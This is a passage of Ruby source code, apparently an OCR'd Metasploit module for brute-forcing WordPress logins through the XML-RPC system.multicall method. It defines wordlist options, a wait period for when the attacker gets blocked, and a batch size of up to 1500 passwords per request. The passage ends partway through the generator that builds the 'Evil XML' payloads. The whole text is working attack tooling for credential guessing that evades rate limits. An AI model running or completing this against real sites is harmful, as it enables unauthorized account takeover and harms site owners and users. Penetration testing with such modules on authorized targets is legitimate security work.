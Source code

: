 ```
    super(update_info(
            info,
            'Name'         => 'WordPress XML-RPC Massive Brute Force',
            'Description'  => %q{WordPress massive brute force attacks via WordPress XML-RPC service.},
            'License'      => MSF_LICENSE,
            'Author'       =>
                [
                  'Sabri (@KINGSABRI)',           # Module Writer
                  'William (WCoppola@Lares.com)'  # Module Requester
                ],
            'References'   =>
                [
                  ['URL', 'https://blog.cloudflare.com/a-look-at-the-new-wordpress-brute-force-amplification-attack/'],
                  ['URL', 'https://blog.sucuri.net/2014/07/new-brute-force-attacks-exploiting-xmlrpc-in-wordpress.html']
                ]
          ))

    register_options(
        [
          OptString.new('TARGETURI', [true, 'The base path', '/']),
          OptPath.new('WPUSER_FILE', [true, 'File containing usernames, one per line',
                                      File.join(Msf::Config.data_directory, "wordlists", "http_default_users.txt") ]),
          OptPath.new('WPPASS_FILE', [true, 'File containing passwords, one per line',
                                      File.join(Msf::Config.data_directory, "wordlists", "http_default_pass.txt")]),
          OptInt.new('BLOCKEDWAIT', [true, 'Time(minutes) to wait if got blocked', 6]),
          OptInt.new('CHUNKSIZE', [true, 'Number of passwords need to be sent per request. (1700 is the max)', 1500])
        ], self.class)
  end

  def usernames
    File.readlines(datastore['WPUSER_FILE']).map {|user| user.chomp}
  end

  def passwords
    File.readlines(datastore['WPPASS_FILE']).map {|pass| pass.chomp}
  end

  #
  # XML Factory
  #
  def generate_xml(user)

    vprint_warning('Generating XMLs may take a while depends on the list file(s) size.') if passwords.size > 1500
    xml_payloads = []                          # Container for all generated XMLs
    # Evil XML | Limit number of log-ins to CHUNKSIZE/request due WordPress limitation which is 1700 maximum.
    passwords.each_slice(datastore['CHUNKSIZE']) do |pass_group|

      document = Nokogiri::XML::Builder.new do |xml|
        xml.methodCall {
          xml.methodName("system.multicall")
          xml.params {
          xml.param {
          xml.value {
          xml.array {
          xml.data {
```